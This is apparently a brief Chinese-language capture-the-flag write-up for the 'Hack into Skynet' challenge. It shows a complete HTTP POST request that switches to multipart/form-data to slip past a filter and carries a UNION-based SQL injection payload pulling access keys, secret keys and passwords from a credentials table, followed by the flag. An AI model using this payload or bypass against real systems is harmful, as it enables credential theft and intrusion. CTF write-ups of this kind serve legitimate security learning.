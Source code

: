 # Hack into Skynet

簽到題？我連題目code都沒看，盲戳就拿到flag惹

因為是real world ctf，所以起手式就先踹real world老梗：轉 `multipart/form-data`

然後就繞掉ㄌ(?)

```
POST / HTTP/1.1
Host: 47.242.21.212:8081
Content-Length: 247
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKhkYDh3tENxA2icS
Cookie: SessionId=e8b7fdceddfac5aa6f84044abd832f87
Connection: close

------WebKitFormBoundaryKhkYDh3tENxA2icS
Content-Disposition: form-data; name="name"

'union select access_key,password||':'||secret_key||':'||password from target_credentials limit 1 offset 6
-- -
------WebKitFormBoundaryKhkYDh3tENxA2icS--
```

=>

`rwctf{t0-h4ck-$kynet-0r-f1ask_that-Is-th3-questi0n}`
